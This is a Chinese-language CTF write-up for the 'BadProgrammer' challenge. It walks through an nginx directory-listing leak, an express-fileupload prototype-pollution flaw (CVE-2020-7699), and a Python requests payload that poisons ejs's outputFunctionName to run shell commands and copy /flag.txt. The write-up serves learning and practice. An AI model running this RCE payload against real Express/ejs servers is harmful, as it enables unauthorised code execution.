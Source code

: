 # BadProgrammer
看名称先猜和泄露有关
进去后什么交互都没有f12,看见可疑的js
![](vx_images/112662627341559.png)

点进去,看见github字样,猜一下是.git的泄露(好吧不是)
官方题解:
step1 nginx配置错误导致源码泄露

观察源码发现静态文件存放在/static/目录下 ：

    ```
    <head>
        <title>Semantic UI</title>
        <link rel="stylesheet" type="text/css" href="/static/css/semantic.min.css">
        <script
        src="/static/js/jquery-3.1.1.min.js"
        integrity="sha256-hVVnYaiADRTO2PzUGmuLJr8BLUSjGIZsDYGmIJLv2b8="
        crossorigin="anonymous"></script>
        <script src="/static/js/semantic.min.js"></script>
    </head>
    ```

观察请求response header发现是nginx服务器加express框架：

```
Connection: keep-alive
Content-Length: 20175
Content-Type: text/html; charset=utf-8
Date: Sat, 05 Sep 2020 08:15:26 GMT
ETag: W/"4ecf-BRB1SRFii1kA+OilogiQ1K0hP8U"
Server: nginx
X-Powered-By: Express
```

利用nginx配置错误，可以列目录：


此时可以得到app.js源码：

```
const express = require('express');
const fileUpload = require('express-fileupload');
const app = express();

app.use(fileUpload({ parseNested: true }));

app.post('/4_pATh_y0u_CaNN07_Gu3ss', (req, res) => {
    res.render('flag.ejs');
});

app.get('/', (req, res) => {
    res.render('index.ejs');
})

app.listen(3000);
app.on('listening', function() {
    console.log('Express server started on port %s at %s', server.address().port, server.address().address);
});
```

step2 express-fileupload原型链污染漏洞

查看package.json文件，发现引用express-fileupload版本为1.1.7-alpha.4，此版本存在CVE-2020-7699，原型链污染漏洞。

```
{
  "name": "app",
  "version": "1.0.0",
  "description": "",
  "main": "app.js",
  "scripts": {
    "app": "node /app/app.js",
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "1.1.7-alpha.4"
  }
}
```

step3 配合ejs模板引擎进行RCE

通过污染ejs中outputFunctionName变量，实现RCE：

```
resp1 = requests.post("http://{}:{}/{}".format(HOST, PORT, PATH),
        files={'__proto__.outputFunctionName': 
        (
            None, "x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x".format(cmd=cmd)
        )})
```

step4 拷贝flag

flag在/flag.txt，需要通过命令执行将其拷贝到可访问到的位置。

观察package.json中，可知服务路径为/app

所以我们只需通过RCE执行

cp /flag.txt /app/static/js/flag.txt

再访问http://IP:PORT/static/js/flag.txt即可得到flag。